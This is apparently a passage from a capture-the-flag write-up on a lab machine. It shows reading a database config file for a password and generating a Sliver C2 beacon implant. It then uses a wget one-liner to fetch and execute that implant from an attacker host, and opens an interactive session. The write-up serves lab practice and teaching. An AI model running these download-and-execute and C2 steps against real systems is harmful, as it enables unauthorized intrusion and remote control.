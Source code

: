 Gathered a clear-text password from it.

```
$ > cat ../../db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = '<REDACTED>';
...
```

We aren’t allowed to connect over SSH without using a valid key.

```bash
ssh theseus@10.129.72.174 -o PreferredAuthentications=password

theseus@10.129.72.174: Permission denied (publickey).
```

The one-liners that I tried didn’t work. Let’s craft an ELF executable with Sliver instead.

```
sliver > http -L 10.10.14.16 -l 80

[*] Starting HTTP :80 listener ...
[*] Successfully started job #2

sliver > generate beacon --os linux --http 10.10.14.16:80 -N http-magic --skip-symbols

[*] Generating new linux/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[*] Build completed in 5s
[*] Implant saved to /home/kali/Desktop/magic/http-magic
```

Uploaded the binary and executed it.

```
$ > wget 10.10.14.16/http-magic -O /tmp/http-magic; chmod +x /tmp/http-magic; /tmp/http-magic

$ > wget 10.10.14.16:8080/http-magic -O /tmp/http-magic    

$ > chmod +x /tmp/http-magic
```

Transformed the beacon into an interactive shell.

```
sliver > use 44c06fe9

[*] Active beacon http-magic (44c06fe9-a4bd-4c68-bc29-e7b474118326)

sliver (http-magic) > interactive

[*] Using beacon's active C2 endpoint: https://10.10.14.16:80
[*] Tasked beacon http-magic (b13c214f)

sliver (http-magic) > tasks

 ID         State     Message Type   Created                          Sent   Completed 
========== ========= ============== ================================ ====== ===========
 b13c214f   pending   OpenSession    Wed, 10 Jul 2024 14:36:06 WEST
```
